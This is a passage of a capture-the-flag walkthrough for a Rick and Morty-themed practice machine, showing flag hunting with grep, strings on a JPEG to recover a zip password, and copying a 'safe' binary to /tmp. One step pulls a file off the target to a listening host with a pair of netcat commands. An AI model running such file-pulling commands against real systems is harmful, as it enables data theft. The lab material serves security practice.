 cat command doesn't work.
### using grep
```
[Summer@localhost ~]$ grep [a-zA-Z0-9] FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points
```
### Pivot into Morty's Directory
## found some files
```
ls -l
total 48
-rw-r--r--. 1 root root   414 Aug 22  2017 journal.txt.zip
-rw-r--r--. 1 root root 43145 Aug 22  2017 Safe_Password.jpg
```
Pulled the file over via netcat
```
nc -nvlp 443 > pass.jpg     --------   nc -nv <address> 443 < Safe_Password.jpg
```
Once file was on box, ran strings on it
```
strings pass.jpg 
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
	#3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
0D000D\DDDD\t\\\\\t
```

Unzipped file with password, and cat out response

cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 

FLAG found
```
FLAG: {131333} - 20 Points
```

## Directory Navigation
### Went to Ricks directory
```
cd RickSanchez/
[Summer@localhost RickSanchez]$ ls
RICKS_SAFE  ThisDoesntContainAnyFlags
[Summer@localhost RickSanchez]$ cd RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ ls
safe
```
copy file to gain control
```
[Summer@localhost RICKS_SAFE]$ cp safe /tmp/safe
[Summer@localhost RICKS_SAFE]$ cd /tmp
[Summer@localhost tmp]$ ls
safe
```